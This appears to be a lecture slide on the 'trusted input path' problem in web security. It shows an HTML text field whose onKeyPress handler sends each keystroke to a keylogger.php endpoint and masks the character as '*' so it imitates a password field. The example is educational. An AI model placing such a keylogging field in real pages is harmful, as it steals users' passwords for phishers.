

# Trusted Input Path Problem
Users are easily tricked into entering passwords into insecure non-password fields

<input  type="text"  name="spoof"
           onKeyPress="(new Image()).src=
		 ’keylogger.php?key=’ +
	        String.fromCharCode( event.keyCode );
      event.keyCode = 183;” >

Sends
keystroke
to phisher
Changes character to *